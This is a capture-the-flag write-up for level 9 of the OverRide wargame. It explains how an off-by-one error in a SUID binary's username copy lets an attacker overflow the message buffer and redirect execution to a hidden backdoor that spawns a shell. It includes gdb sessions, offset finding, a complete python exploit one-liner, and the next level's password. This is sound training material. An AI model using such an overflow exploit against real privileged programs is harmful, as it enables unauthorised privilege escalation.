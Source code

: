 # Level 9

## Vulnerability

Off-by-one error allows buffer overflow

## Context

We find a binary with owner ```end``` and SUID.
```
level09@OverRide:~$ ls -l
-rwsr-s---+ 1 end users 12959 Oct  2  2016 level09
```

When run it prompts user for a username, and a message which is supposedly sent to *Unix-Dude*.
```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Drew
>: Welcome, Drew
>: Msg @Unix-Dude
>>: Dear Unix-Dude, lots of love, Drew
>: Msg sent!
level09@OverRide:~$
```

See [disassembly notes](https://github.com/dfinnis/Override/blob/main/level09/disassembly_notes.md) for detailed gdb assembly breakdown.

## Solution

### Overview

The binary simply prompts for, then copies, username and a message.

Investigating with gdb we find a hidden function ```secret_backdoor()```, which reads to a buffer from stdin, then calls ```system()``` with the buffer. Obviously we would like to jump to ```secret_backdoor()``` somehow, and enter ```/bin/sh``` on stdin, to open a shell.

### Off-by-one error

The copy username loop has an off-by-one error, which allows the user to overwrite the ```len_message``` variable by one byte.

A larger ```len_message``` than the default 140 can cause strncpy to overflow the buffer when copying the *Msg*.

So let's fill the 40 byte username buffer then overflow by 1 byte into ```len_message```, writing the maximum 1 byte value ```0xff```.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude

>>: >: Msg sent!

Segmentation fault (core dumped)
```
Great, its segfaults.

### Find RSP offset

Can we overflow and overwrite the return address with the address of ```secret_backdoor()```?

Since the binary was compiled in 64-bit, RSP (not EIP) is the return address register.

[Using this buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) and the following example in gdb, we find we start to overwrite RSP after 200 bytes.
```
level09@OverRide:~$ gdb -q level09
...
(gdb) run
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah
>: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp                                              // RSP return address
0x7fffffffe588:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah"  // We find this string in the pattern string above after 200 characters
```

### Find secret_backdoor address

Finally we need to find the address of ```secret_backdoor()```.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

### Build exploit

So we build our exploit string:
1. 40 byte username buffer, until overflow ```len``` - ```"A" * 40```
2. 1 byte, max value, overwrite ```len``` - ```\xff```
3. new line, enter unsername - ```\n```
4. 200 byte msg buffer, until overflow RSP - ```"A" * 200```
5. overwrite RSP with address of ```secret_backdoor()``` - ```\x8c\x48\x55\x55\x55\x55\x00```
6. new line, enter msg - ```\n```
7. system() open shell command - ```/bin/sh```

Let's pipe our exploit string into the binary stdin.
```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## End

Let's log in to user ```end```.
```
level09@OverRide:~$ su end
Password: j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```
Good Game !
